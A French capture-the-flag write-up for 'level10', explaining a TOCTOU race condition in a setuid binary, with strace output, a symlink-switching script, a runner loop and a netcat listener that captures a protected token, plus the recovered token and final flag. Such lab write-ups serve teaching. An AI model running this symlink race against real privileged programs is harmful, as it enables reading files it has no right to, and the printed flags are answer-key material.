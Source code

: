 # Niveau 10 - Exploiter une vulnérabilité TOCTOU

## Vulnérabilité

Ce niveau exploite une vulnérabilité de condition de concurrence (race condition) de type Time-of-Check-to-Time-of-Use (TOCTOU).

## Découverte & Analyse

En analysant le binaire avec `strace`, nous observons la séquence suivante d'appels système :
```bash
access("test2", R_OK) = 0
...
write(1, "Connecting to 192.168.122.99:696"..., 37Connecting to 192.168.122.99:6969 .. ) = 37
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("192.168.122.99")}, 16) = 0
write(3, ".*( )*.\n", 8) = 8
write(1, "Connected!\n", 11Connected!
) = 11
write(1, "Sending file .. ", 16Sending file .. ) = 16
openat(AT_FDCWD, "test2", O_RDONLY) = 4
```
La vulnérabilité clé est l'intervalle de temps entre la vérification des permissions (`access()`) et l'ouverture réelle du fichier (`open()`). Si nous pouvons changer ce vers quoi pointe le chemin du fichier pendant cet intervalle, nous pouvons lire des fichiers auxquels nous n'avons pas la permission d'accéder.

## Méthode d'Exploitation

### Étape 1 : Créer les fichiers nécessaires

```bash
touch /tmp/myfile
chmod 777 /tmp/myfile

nano /tmp/switcher.sh
```

Contenu de `/tmp/switcher.sh`:
```bash
#!/bin/bash

while true; do
  # Basculer le lien symbolique vers /tmp/myfile
  ln -sf /tmp/myfile /tmp/linkfile

  # Basculer le lien symbolique vers le fichier token
  ln -sf /home/user/level10/token /tmp/linkfile
done
```

- `ln` : Crée des liens entre les fichiers.
- `-s` : Crée un lien symbolique (symlink) au lieu d'un lien physique. Un lien symbolique est comme un raccourci qui pointe vers un autre fichier. Ils sont utiles ici car ils peuvent être rapidement redirigés pour pointer vers différents fichiers.
- `-f` : Option "force". Si le fichier cible existe déjà, le supprime avant de créer le lien. Cela évite les messages d'erreur concernant les fichiers déjà existants.

```bash
nano /tmp/runner.sh
```

Contenu de `/tmp/runner.sh`:
```bash
#!/bin/bash

while true; do
  # Exécuter le programme level10
  /home/user/level10/level10 /tmp/linkfile 127.0.0.1
done
```

Rendre les scripts exécutables :
```bash
chmod +x /tmp/switcher.sh
chmod +x /tmp/runner.sh
```

### Étape 2 : Mettre en place un écouteur et exécuter les scripts

Dans trois terminaux séparés, exécutez :

```bash
# Terminal 1 : Démarrer un écouteur netcat
nc -kl 6969

# Terminal 2 : Exécuter le programme en boucle
/tmp/runner.sh

# Terminal 3 : Basculer les liens en boucle
/tmp/switcher.sh
```

- `nc` est l'utilitaire netcat, un outil réseau polyvalent.
- `-l` met netcat en mode "écoute", le faisant agir comme un serveur.
- L'option additionnelle `-k` maintient l'écouteur actif après la déconnexion d'un client.
- `6969` est le numéro de port sur lequel écouter.

Après avoir exécuté l'exploit, nous avons capturé le jeton du fichier `token` sur l'écouteur `nc`:

```
woupa2yuojeeaaed06riuj63c
```

Nous avons utilisé ce jeton pour nous connecter en tant qu'utilisateur `flag10` :

```bash
su flag10
# Entrez le jeton comme mot de passe
getflag
# Sortie : Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Explication

L'exploit fonctionne car :

1. Lorsque `level10` appelle `access()`, notre lien symbolique pointe vers `/tmp/myfile` auquel nous pouvons accéder.
2. Avant que `level10` n'appelle `open()`, notre script change rapidement le lien symbolique pour pointer vers le fichier `token`.
3. Lorsque `open()` est appelé, il ouvre le fichier `token` à la place, contournant la vérification de permission.
4. Le contenu est envoyé à notre écouteur netcat.

C'est une vulnérabilité classique de condition de concurrence où l'état du système change entre la vérification des permissions et l'exécution d'une opération.
